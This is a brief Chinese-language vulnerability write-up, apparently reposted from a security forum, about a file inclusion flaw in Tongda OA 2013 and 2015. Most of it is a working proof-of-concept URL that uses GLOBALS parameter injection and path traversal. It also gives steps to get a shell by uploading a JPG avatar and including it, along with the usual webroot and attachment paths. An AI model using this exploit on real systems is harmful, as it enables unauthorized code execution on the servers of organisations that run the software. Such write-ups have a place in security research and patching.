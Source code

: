 # 通达oa 文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3336](https://www.zhihuifly.com/t/topic/3336)

# 通达oa 文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录 一般在D:\MYOA\webroot中,头像附件一般在D:\MYOA\webroot\attachment\avatar\XXX.jpg

![image](img/6d9d94530ca50a162c30631ae6591887.png)